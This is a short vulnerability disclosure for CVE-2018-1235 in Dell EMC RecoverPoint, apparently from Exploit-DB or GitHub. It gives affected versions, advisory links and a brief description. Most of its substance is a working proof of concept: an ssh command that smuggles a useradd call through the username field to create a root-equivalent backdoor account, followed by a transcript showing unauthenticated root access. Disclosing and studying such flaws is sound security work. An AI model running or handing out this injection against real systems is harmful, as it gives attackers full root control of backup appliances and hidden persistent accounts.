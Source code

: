 ## EMC RecoverPoint < 5.1.2/5.1.1.3 username command injection (remote root exploit)

- Version: All versions before RP 5.1.2, and all versions before RP4VMs 5.1.1.3
- Date: 2018-06-21
- Vendor Advisory: DSA-2018-095
- Vendor KB: https://support.emc.com/kb/521234
- Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd
- Github: https://github.com/bao7uo/dell-emc_recoverpoint
- Website: https://www.foregenix.com/blog/foregenix-identify-multiple-dellemc-recoverpoint-zero-day-vulnerabilities
- Tested on: Tested on: RP4VMs 5.1.1.2, RP 5.1.SP1.P2
- CVE: CVE-2018-1235
- Exploit-db: https://www.exploit-db.com/exploits/44920/

## 1. Description
An OS command injection vulnerability exists in the mechanism which processes usernames which are presented for authentication, allowing unauthenticated root access via the ssh service.

## 2. Proof of Concept

- Inject into ssh username.

```
$ ssh '$(useradd -ou0 -g0 bao7uo -p`openssl passwd -1 Secret123`)'@192.168.57.3
Password: ^C
$ ssh bao7uo@192.168.57.3
Password: Secret123
Could not chdir to home directory /home/bao7uo: No such file or directory
root@recoverpoint:/# id
uid=0(root) gid=0(root) groups=0(root)
root@recoverpoint:/#
```
- N.B. combined length of new username+password is limited to 21 due to injection length limitations

## 3. Solution:

Update to latest version of RecoverPoint
